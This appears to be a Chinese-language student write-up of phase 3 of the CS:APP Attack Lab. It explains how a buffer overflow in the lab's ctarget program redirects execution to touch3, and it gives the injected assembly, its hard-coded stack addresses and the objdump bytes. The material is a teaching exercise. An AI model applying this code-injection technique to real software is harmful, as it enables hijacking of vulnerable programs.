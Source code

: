 ## 三、PHASE3

在 PHASE3 中，我们需要使用缓冲区溢出攻击 ctarget 程序，调用 touch2 函数，并且需要将 cookie 字符串（"**`0x59b997fa`**"）地址作为参数传入 touch2。

```c{.line-numbers}
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval) {
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

PHASE3 的思路和 PHASE2 相似，首先，**<font color="red">通过字符串输入把 caller 的栈中储存的 test 返回地址改为注入代码片段的存放地址</font>**，根据上一节可知，buf 数组的起始地址为 **`0x5561dc78`**，test 函数的返回地址在内存的位置为 **`0x5561dca0`**，因此假设代码片段存放的地址为 **`0x5561dcc0`**（其他地址也可以）；接下来将 cookie 字符串的地址作为参数传递给 %rdi，在栈中压入 touch3 代码地址；最后执行 ret 指令时调用的返回地址也就是 touch3。恶意代码如下所示：

```c{.line-numbers}
xorq  %rax,%rax
pushq %rax
movabsq $0x6166373939623935,%rax
pushq %rax
movq  %rsp,%rdi
pushq $0x004018fa
ret
```

使用 **`gcc -static -nostdlib test03.s -o test`** 编译上述代码为二进制程序，接着使用 **`objdump -d test`** 进行反汇编。

```c{.line-numbers}
monica@xvm:~/csapp/csapplab/attacklab/target1$ gcc -static -nostdlib test03.s -o test
/usr/bin/ld: 警告: 无法找到项目符号 _start; 缺省为 0000000000401000
monica@xvm:~/csapp/csapplab/attacklab/target1$ objdump -d test

test：     文件格式 elf64-x86-64
Disassembly of section .text:

0000000000401000 <__bss_start-0x1000>:
  401000:	48 31 c0             	xor    %rax,%rax
  401003:	50                   	push   %rax
  401004:	48 b8 35 39 62 39 39 	movabs $0x6166373939623935,%rax
  40100b:	37 66 61 
  40100e:	50                   	push   %rax
  40100f:	48 89 e7             	mov    %rsp,%rdi
  401012:	68 fa 18 40 00       	push   $0x4018fa
  401017:	c3                   	ret  
```
